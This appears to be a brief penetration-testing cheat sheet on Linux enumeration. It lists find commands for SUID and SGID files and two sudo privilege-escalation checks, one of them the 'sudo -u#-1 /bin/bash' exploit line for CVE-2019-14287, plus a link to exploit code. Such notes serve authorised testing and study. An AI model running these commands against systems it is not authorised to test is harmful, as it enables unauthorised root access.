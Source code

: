 # Linux Enumeration

| Command | Summary |
| ---------------------------- | ---------------------------- |
| Find SUID files | ```find / -perm -u=s -type f 2>/dev/null``` |
| Alternate Find SUID files | ```find / -type f -perm -04000 -ls 2>/dev/null``` |
| Find SGID files | ```find / -perm -g=s -type f 2>/dev/null``` |


| Check | Description |
| ---------------------------- | ---------------------------- |
| Sudo Local Privilege Escalation (CVE-2019-14287) | Sudo versions < 1.8.27 may be vulnerable to LPE, check: ```sudo -u#-1 /bin/bash``` |
| Sudo Buffer Overflow (CVE-2019-18634)| Sudo versions < 1.8.26 may be vulnerable to a buffer overflow, pwfeedback enabled: [GitHub for Code](https://github.com/saleemrashid/sudo-cve-2019-18634/blob/master/exploit.c) |